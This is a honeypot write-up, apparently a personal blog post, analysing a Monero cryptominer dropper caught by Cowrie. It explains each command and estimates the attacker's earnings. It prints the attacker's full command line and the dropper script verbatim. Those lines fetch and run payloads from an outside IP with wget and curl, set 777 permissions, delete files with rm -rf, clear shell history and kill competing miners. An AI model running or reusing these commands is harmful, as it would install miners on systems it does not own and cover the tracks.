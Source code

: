 ```yaml
---
layout: post
title:  "Another-miner-caught-by-cowrie"
by:     "Michael Meade"
---
```

`nc 1 1; rm s.sh; wget http://45.148.10.186/s.sh; busybox wget http://45.148.10.186/s.sh; curl -O http://45.148.10.186/s.sh; chmod 777 *; sh s.sh; cat /etc/issue`


The text above is what the attacker entered in commmand prompt of the honey pot. Before the attackers attempted to download the payload, the actor uses `rm s.sh`
to remove any other copies of itself. After that is done the command will use both curl and wget to download the payload from `http://45.148.10.186/s.sh`.
The attacker used both curl and wget so that if one of the tools was not installed, the attacker could still download the payload.

After the attacker downloaded s.sh the attackers use the command `chmod 777 *` to change all the files and folders permissions to 777.
After doing that the attacker s.sh, then the attacker uses the cat command to view the file located at `/etc/issue`.


`
cd /tmp
wget http://45.148.10.186/so
wget http://45.148.10.186/config.json
curl -O http://45.148.10.186/so
curl -O http://45.148.10.186/config.json
busybox wget http://45.148.10.186/config.json
busybox wget http://45.148.10.186/so
chmod 777 *
./so
rm -rf *
rm config.json
history -c
pkill xmrig
pkill xmra64
pkill rx64
pkill cnrig
pkill xmrigMiner
echo wedonehereboiz-allwgetz
`
The contents above is what was in s.sh. Please note that the attacker orginally has all that as one line, they used ; to join all the lines into one long string. 
I created a new line at every `;` to make it easier to read. 

First the script will change the directory to `/tmp`. After the scrip changes the the directory, the script will download a file named so that is hosted at:'
`http://45.148.10.186/so`. After the `so` file is downloaded, the script will download a json file named config.json. This file is located at: `wget http://45.148.10.186/config.json`
This json file is the miners config file, its where the attacker stores all the settings that the miner will read. Information like the pool, the XMR address and other settings for the miner to use.  
As the same before the attackes will attempt to use curl to make sure the files are downloaded. 

Once again the attackes will change all the files and direcories permissions to 777.  The script will than run the `so` file and also use the `rm -rf *` command to 
remove all the contents of `/tmp`.  The script will also use the rm command to remove the mine config.  The script will use the   `history -c` command to remove
systems history file contents. After all that is done, the script uses the pkill command to kill other common proccesses. The next part is where it gets kinda weird.
The attcker then following command `echo wedonehereboiz-allwgetz` to echo the text "wedonehereboiz-allwgetz".

### The Miner Config
The miner config that the attacker downloaded was using the following pool: `pool.supportxmr.com:7777`

The Monero addresst he attacker was using is: `44UQBpc6HKtGDymsvkW7995ftPTjoCi1Se5QEGPG2HMYfrw1DMp3thnCutiCQFPWvVcZqYVdwN6bUgMbAMou1skr8hxmZVv`.

![44UQBpc6HKtGDymsvkW7995ftPTjoCi1Se5QEGPG2HMYfrw1DMp3thnCutiCQFPWvVcZqYVdwN6bUgMbAMou1skr8hxmZVv-pools-info](https://i.imgur.com/wsallzy.png)

The image above is the profits that the attacker has made as of 10/31/2020. The screen shows that the has `0.00337481 XMR` that is currently pending. The attackers has been paid `0.06339700`. On this date ( 10/31/2020 ) the attackers has only made $ 8.092627049999999. The attacker also has XMR worth 0.4307944965 in 
pending XMR. The attacker has the hash rate of `8.7 KH/s `. If the attacker was to stay at the same hash rate of 8.7 KH/s for a whole year, the pool predicts that
the attacker would make `1.9447 XMR`. Currently this totals to `$ 248.240955`. 
